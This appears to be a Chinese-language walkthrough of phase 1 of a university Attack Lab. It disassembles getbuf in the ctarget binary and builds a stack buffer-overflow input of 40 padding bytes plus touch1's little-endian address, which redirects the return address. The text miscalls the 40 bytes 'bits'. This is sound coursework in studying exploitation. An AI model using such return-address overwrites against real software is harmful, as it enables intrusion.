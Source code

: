 ```
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

复制

也就是在 `getbuf()` 函数返回的时候，执行 `touch1()` 而不是返回 `test()`。下面是一些建议：

- 本关所需要的所有信息都可以在 `ctarget` 的汇编代码中找到
- 具体要做的是把 `touch1` 的开始地址放到 `ret` 指令的返回地址中
- 注意字节的顺序
- 可以用 gdb 在 `getbuf` 的最后几条指令设置断点，来看程序有没有完成所需的功能
- 具体 `buf` 在栈帧中的位置是由 `BUFFER_SIZE` 决定的，需要仔细察看来进行判断

接下来我们就开始解题。

首先是反编译成汇编代码：`objdump -d ctarget > ctarget.txt`

然后把这个文件传到本地方便查看：`scp dawang@shark.ics.cs.cmu.edu:~/513/target334/ctarget.txt ./`

接下来我们需要确定 `getbuf` 到底创建了多大的缓冲区，检索 `getbuf`，代码如下：

```
000000000040181c <getbuf>:
  40181c:	48 83 ec 28          sub    $0x28,%rsp
  401820:	48 89 e7             mov    %rsp,%rdi
  401823:	e8 88 02 00 00       callq  401ab0 <Gets>
  401828:	b8 01 00 00 00       mov    $0x1,%eax
  40182d:	48 83 c4 28          add    $0x28,%rsp
  401831:	c3                   retq   
  401832:	90                   nop
  401833:	90                   nop
```

复制

可以看到这里把 `%rsp` 移动了 `0x28`(40) 位，也就是说，我们的缓冲区有 40 位，再上面的四位就是原来正常需要返回到 `test` 的返回地址（注意看之前的栈帧图），我们要做的就是利用缓冲区溢出把这个返回地址改掉。

于是我们继续搜素，来看看 `touch1` 在哪里：

```
0000000000401834 <touch1>:
  401834:	48 83 ec 08          sub    $0x8,%rsp
  401838:	c7 05 9a 3c 20 00 01 movl   $0x1,0x203c9a(%rip)        # 6054dc <vlevel>
```

复制

可以看到地址在 `0x401834` 这里，但是我们要凑够 8 位，就是 `0x00401834`，于是我们需要输入的字符串就可以是这样：

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
34 18 40 00
```
